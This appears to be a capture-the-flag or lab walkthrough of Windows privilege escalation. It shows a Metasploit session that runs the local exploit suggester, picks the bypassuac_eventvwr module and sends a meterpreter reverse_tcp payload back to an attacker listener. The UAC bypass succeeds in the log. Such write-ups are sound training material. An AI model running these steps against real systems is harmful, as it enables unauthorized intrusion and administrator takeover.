 >>Enumerate the machine and find potential privilege escalation paths to gain Admin powers!

>>TO EXPLOIT IT SEARCH FOR LOCAL EXPLOIT IN METERPRETER.THEN BACKGROUND THE SESSION AND USE THE
FIRST EXPLOIT SHOWN.SET THE LHOSTS AND RUN THE EXPLOIT 

```bash
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.76.152 - Collecting local exploits for x86/windows...
[*] 10.10.76.152 - 34 exploit checks are being tried...
[+] 10.10.76.152 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.76.152 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.76.152 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.76.152 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.76.152 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.76.152 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.76.152 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.76.152 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.76.152 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
meterpreter > 
Background session 1? [y/N]  
msf5 exploit(windows/http/icecast_header) > use /exploit/windows/local/bypassuac_eventvwr
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/bypassuac_eventvwr) > show options

Module options (exploit/windows/local/bypassuac_eventvwr):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.250.92     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86
msf5 exploit(windows/local/bypassuac_eventvwr) > set LHOSTS 10.10.250.92
LHOSTS => 10.10.250.92

msf5 exploit(windows/local/bypassuac_eventvwr) > run

[*] Started reverse TCP handler on 10.10.250.92:4444 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Sending stage (176195 bytes) to 10.10.76.152
```